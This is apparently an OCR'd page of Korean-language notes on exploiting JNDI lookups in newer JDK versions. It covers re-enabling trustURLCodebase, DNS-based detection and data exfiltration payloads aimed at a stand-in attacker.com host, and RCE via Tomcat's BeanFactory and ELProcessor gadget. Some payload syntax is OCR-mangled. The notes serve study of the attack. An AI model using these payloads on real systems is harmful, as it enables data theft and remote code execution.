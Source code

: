 ## Exploiting JNDI in Newer JDK Versions
```



새로운 JDK 버전에서 JNDI 취약점을 완화하기 위해 시행된 제한 사항에도 불구하고, 여전히 공격자가 그들을 악용할 수 있는 시나리오를 설명하는 몇 가지 상황을 소개합니다.

1. trustURLCodebase가 True로 설정된 경우

- com.sun.jndi.ldap.object.trustURLCodebase가 명시적으로 True로 설정된 경우, 이는 그 제한을 해제하고 기본 악용을 사용하여 악용될 수 있습니다.

```js
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true"); //LDAP
```



2. DNS 메시지 조회를 통한 남용

- 최신 Java 버전에서는 JNDI 원격 클래스 로딩이 금지되었지만, 메시지 조회 메커니즘 자체는 여전히 작동합니다.
- 탐지 - `$'jndi:dns://attacker.com/gg`
- DNS 데이터 유출→ `$'jndi:ldap://$'BELOWPAYLOADHERE'.attacker.com/gg`
- 예시 Payloads
  - main:argumentName → 명령행 인수의 값 유출
  - sys:propname ⠀⠀⠀ → 시스템 속성 값 유출(예: user.name)

3. 로컬 클래스 경로에서의 공격성 팩토리 클래스 남용

- 더 높은 버전에서는 악의적 Factory가 원격으로 로드되지는 않지만, 공격자는 여전히 제공된 JNDI Reference를 통해 Factory 클래스와 해당 속성을 지정할 수 있습니다.
- 공격자는 취약한 프로그램의 클래스 경로에 있는 어떤 Factory 클래스든 가젯으로 재사용할 수 있습니다.
- 사용 가능한 Factory 클래스는 다음과 같은 속성을 가질 것입니다:



```markdown
1) 취약한 프로그램의 클래스 경로에 존재해야 합니다.
2) ObjectFactory 인터페이스를 구현해야 합니다.
3) getObjectInstance 메서드를 구현해야 합니다.
4) Reference의 속성을 사용하여 위험한 작업을 수행해야 합니다.

예시 가젯 클래스

- BeanFactory

- 여기서는 Reference의 문자열 속성에만 의존하여 임의의 Java 코드 객체가 생성됩니다(Reflection을 사용).
- 이와 관련하여 org.apache.naming.factory.BeanFactory를 로컬 공장 클래스로 사용하고, javax.el.ELProcessor 클래스를 대상 클래스로 사용하고, EL 표현식을 사용하여 명령을 실행할 수 있습니다.
- org.apache.naming.factory.BeanFactory 클래스(Tomcat과 함께 제공됨)가 클래스 경로에 있는 경우, 기본 JRE/JDK 버전과 관계없이 RCE를 달성할 수 있습니다.
- 이에 대한 자세한 내용은 다음 블로그에서 확인할 수 있습니다: https://www.cnblogs.com/Welk1n/p/11066397.html
- 그러나 이는 아래 Tomcat 버전에서 수정되었습니다.
```
